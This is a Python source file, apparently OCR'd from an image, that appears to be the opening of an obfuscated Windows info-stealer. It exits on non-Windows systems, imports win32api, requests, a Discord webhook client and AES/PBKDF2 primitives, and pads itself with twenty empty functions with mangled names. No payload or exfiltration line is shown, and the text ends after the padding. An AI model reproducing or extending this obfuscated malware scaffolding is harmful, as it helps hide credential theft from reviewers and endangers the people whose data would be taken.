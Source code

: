 
import sys

def CKHDGMUFJPIPSCWQBTRRAZFAYNWQUWDDTZMGZAQAIYKYWKPZJIDSFYIJXPBXPDKWZWKZIMPQLIBJIIKWFNCRP():
    def BUZUKQXEFXGWGSZUSJWLHVWIEHOMUNRSDLMFAYJTSAXTSYKEPRWPQTCIJKNQU():
        if sys.platform.startswith("win"):
            return False
        else:
            return True
    
    try: 
        GRMQEFKRZCPANXSBMDEJDKIDRQINDQNECIMWMISVGEQMWPYCNFQQULOZUDBMWHGAXQLBVTHDTMGBJPQRZOKHIVAIT = BUZUKQXEFXGWGSZUSJWLHVWIEHOMUNRSDLMFAYJTSAXTSYKEPRWPQTCIJKNQU()
        if GRMQEFKRZCPANXSBMDEJDKIDRQINDQNECIMWMISVGEQMWPYCNFQQULOZUDBMWHGAXQLBVTHDTMGBJPQRZOKHIVAIT == True:
            return GRMQEFKRZCPANXSBMDEJDKIDRQINDQNECIMWMISVGEQMWPYCNFQQULOZUDBMWHGAXQLBVTHDTMGBJPQRZOKHIVAIT
    except:
        return True
    
if CKHDGMUFJPIPSCWQBTRRAZFAYNWQUWDDTZMGZAQAIYKYWKPZJIDSFYIJXPBXPDKWZWKZIMPQLIBJIIKWFNCRP() == True:
    sys.exit()
    
import os
import socket
import win32api
import requests
import base64
import ctypes
import threading
import discord
from discord import SyncWebhook
from cryptography.hazmat.primitives import hashes
from cryptography.hazmat.primitives.kdf.pbkdf2 import PBKDF2HMAC
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.primitives import padding
from cryptography.hazmat.backends import default_backend

def LMGHLRYWANMHMLOCQBNABNTWRMGHCFMTTOAWZYKYKKRBYESQROAVTSQZVHNXRGAETZLDQONTMCGQM(): pass
def HSUFCWQSBPOAUZZDXANMIGWGWAPNRKWQHSOVNOIBBDDUEFNBSZEDSLVSOCDBDSVEWJQCMWEVCBVSGX(): pass
def DLZYSRGRYUCIYVNLYOKMXOAMMWDVSNXTIOCIAOBBENHLKBOQTNBULISBHMGOJBIZUGDRXJWHUUSUOBMWCRDMVDOY(): pass
def PZVGXYXYFFAHJJCAPKVDCIMXSARWDDHQLDIDCHEYVYHQLDSBJRVUTPMHFICEZTAASGINECOIXANLVNERYFAVKVESSPKNMSN(): pass
def JXRPKJEZHGOYNYTHLCGSZKWZUTNAMBPLIQZRERYGNGSASJPWZKKF(): pass
def EZOUVMIZGILLLOWOUUKSBJPVVGLDEBJGSVMFBFSZTWSASVJHKLYDOAQGKFP(): pass
def JNSCFGWYQMWCBWNCQQKNEWTMEDLEMTFQYOUVSJGPNLJDFJGHIVUTWAAXHPBYKOKOKRECOJRLGQPMMY(): pass
def PUVGAXOYZYGZMGBPHOFVJKONZDGGZQJHQQCLGVFIGWJKQBKKCZZJZWYRRCNADBQSPTCWROWRPHCIVRQOMXUZTVD(): pass
def UBQYJCUOPWSRAMWWJAOZHOXEHMEMMPZPZUEAHOXOONWVHAVIFOTHOF(): pass
def CWPFCEVADSMFPRRVFBIOVISJARPIATBMSWZCHYBEXHBJLGNEDIDHDEDMVYGOEGCGYCRHPLVJWJ(): pass
def TMNBCKSQMRXMNCBKOMCMOUVDBQLLTRXICFUJSPLSMSLGANVHEZTUBNCKRTLVSDCTXH(): pass
def PIMGXETDRFTOZUSZYOBVWPYJSNRLTJVUYBZJTXFUKUXZIJOMRLYHJVNNVEZESVORRXOGQGQGQXHLJBPJDLCPYMYXRBPNSP(): pass
def XKSOJVVPGXGIZNYQKCRPKIUVLEBENNRYVXWEVJWYPUTQXQJBPDYNFHWLGNJZUOWBGOUWTWGBHDQXHY(): pass
def FXXJOUCSVARSHQYVSQMANPWNYRLKQXWOJBDHSEZHGGKCZVJHVZDCNGWOONFBUGEXLCSMOKHDKTXWTRBYEROBDYAKKKEP(): pass
def PPPACPRWWMQHYRMYCNWOIOXLRCKDZVOLAQBTZXNVXBKDYRQABBEUELFWXDODDWRIXDOCTCBRJYXURJEQQSGGMQGAXCECATVD(): pass
def AXRAZNCMQCWVRSVFFVQSALSSHQEAERFWXWLCRBDVHYAHCJCNSNQJVDTFCLAVFUPNCCCSGPJAYAUZZIVATYJGJRHCMZSW(): pass
def VRXXANDOKOAEOFEHCQZKBFNRATTXSGRKZGCIICCXTJWTPFNSMTBYUOTTOKT(): pass
def YBOIMGXDDTBBYBNMIPVUABMQJOUGDHLMBCPNTOWQYCGGOOEHEJKIDTVHQHGGYPXMMSH(): pass
def CGLATPMGRYTXLNFGNPYLOWJKJWMCDTFZUKAOXUHRXCJZDLJHVPW(): pass
def RYSJLSPMWABQDISHDNFEOWMDUQRABESBIHMOWOOYLBBDQYMFCCIIKTQPYXQBZPGPIUXXDXKKZLWR(): pass
